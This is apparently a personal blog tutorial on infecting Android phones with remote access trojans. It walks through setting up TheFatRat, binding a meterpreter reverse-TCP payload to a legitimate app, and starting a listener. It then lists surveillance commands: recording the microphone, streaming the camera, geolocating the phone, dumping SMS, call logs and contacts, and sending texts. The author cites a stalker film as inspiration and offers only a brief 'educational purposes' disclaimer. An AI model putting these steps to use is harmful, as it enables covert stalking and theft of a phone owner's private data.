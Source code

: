 ```yaml
---
title: Trying out an android Remote Access Trojan (RAT)
author: hugo
date: 2023-04-05 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of infecting Android phones with a trojan. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }

## The art of deception

_The best defense is a good offense_. Once you're able to write this up and distribute it yourself you'll get a good grasp of how this attack works and what to look out for to stay protected on the internet. Let's define what a trojan is and what we intend to do here today.

<em>In computing, a Trojan horse is any malware that misleads users of its true intent by disguising itself as a real program. The term is derived from the ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy.</em> [`Wikipedia`](https://en.wikipedia.org/wiki/Trojan_horse_(computing)).

To perform this attack you:

1. do not need to "root" your device. You should be able to connect your phone via USB or wifi and drag and drop the executable onto the phone without prior phone configuration.
2. will need to have physical access (pin number) to the phone you're targeting because Android is able to identify it as a trojan and tries to prevent you from installing it.

## Netflix

I got inspired to write this blog post after watching a disturbing movie on netflix. "Unlocked" is the story of a korean psychopath who installs malware on a girl's lost cell phone and uses it to track her every move. The movie or the plot was not great but this idea stuck with me.

## Strategy

Let's review what we are about to do. The plan is to test this malware locally on a virtual android environment and make sure that our server can successfully command and control the android phone. Once that's validated we can increase the complexity by deploying it onto a an actual phone on our local area network. I was planning on showcasing at least four open source projects but ended up only reviewing two of them. The [L3MON](https://github.com/D3VL/L3MON) project vanished from github unfortunately and the [xhunter](https://github.com/anirudhmalik/xhunter) project did not work despite using the release and making sure to use the right Android OS version. It's been quite hard to find anything that (kind of) works so I'm happy to have at least found one open source project that actually applied the malware.

## Configuring and installing

We will be trying out two RATs today: [TheFatRat](https://github.com/screetsec/TheFatRat) and [AndroRAT](https://github.com/karma9874/AndroRAT). Both of which have their pros and cons. 

Starting in second place we have AndroRAT. The advantage of using this RAT is the fact that the author deployed the actual Java code so you're able to modify and understand how it does it's magic. I deployed AndroRAT on one AVD and two actual phones (OS 13 and 6.0.1) and they were all extremely unstable. The RAT successfully spawned a reverse shell on my computer but it would randomly break and I would have to repeat the installation cycle all over again every time. If it wasn't for the transparency I don't think I would have bothered mentioning this program in the first place but I can see potential in it. 

Our clear winner here today is TheFatRat who's functionalities are far and wide. This small executable claims it can take on Windows, Mac, Linux computers as well as android phones. I have yet to fully test and assess these claims but so far I have been blown away by the ease of use and the sheer amount of features this thing has. With our previous RAT we had to install and run a shaddy looking app which does not seem like a credible attack strategy. TheFatRat on the other hand allows us to attach the trojan onto a legitimate app which is how I assume most malware is distributed nowadays. TheFatRat has however a glaring problem which is that it's closed source. The program works thanks to a couple of bash scripts and pre-compiled (c++ code?) but you won't get to see a single line of actual source code which is disappointing to say the least.

Enough talk let's configure and install this software to see what it can do.

```console
    [waz@localhost]# git clone git@github.com:screetsec/TheFatRat.git
    [waz@localhost]# cd TheFatRat
    [waz@localhost]# chmod +x setup.sh && ./setup.sh
```
If the setup fails try running it again, it solved the issue for me as some libraries conflicted with existing ones I had previously installed.

Once the setup is complete you now see a program called _fatrat_ at the root of the project. Run it and it will start the following command line prompt

![FatRat welcome screen](/assets/img/posts/2023-04-05_11-31.png){: width="100%"}

The purpose of this tutorial today is to run an Android trojan so let's choose option number 5. You will then be asked to choose the host ip address, the host's port and the app you want to attach the payload to. I've choosen Flappy bird which I downloaded from APK mirror. The host ip is the IP address of the server that should communicate back with the infected target. Don't forget to allow the servers to communicate on the port you choose to run in your firewall.

![FatRat host configuration](/assets/img/posts/2023-04-05_11-38.jpg){: width="100%"}

Later in the process choose the option 3 "android/meterpreter/reverse_tcp" and then option 3 "Use MsfVenom"

Once configured make sure to add a listener and give it a name, I gave it the name `myratconfig.rc`. This will list out the configuration which will now be used to run our local server. This next command will start listening for incoming HTTP requests 

```console
    [waz@localhost]# msfconsole
```

Now copy paste the contents of `myratconfig.rc` in the console to start listening for incoming requests. The next step is to send the trojan and install it on a device. You can start a local android instance with the following command `./emulator -avd Pixel_API_33` or connect your phone to your computer via USB. Once installed it's you'll have a number of interesting commands at your disposal. You'll notice that the phone does not even need to have the infected app in the background in order to work

Here are the commands I found most interesting:

```console
# record the next 20 seconds activity from the microphone
record_mic -d 20
# send text messages 
send_sms -d +351961234567 -t "GREETINGS SWEETHEART."  
# list available cameras
webcam_list 
# take a picture from the camera s phone
webcam_snap 2
# start streaming the back camera
webcam_stream 
# locate the phone by returning the exact longitude/latitude position
wlan_geolocate -a REPLACE_WITH_YOUR_GOOGLE_API_KEY
# take a screenshot 
screenshot
# copy all of the call logs on the phone
dump_calllog
# copy all of the sms conversations on the phone
dump_sms
# copy all of the contacts on the phone
dump_contacts
```
## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/2023-04-05%2022-31-03.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen sandbox></iframe>

</div>

Thank you for reading 

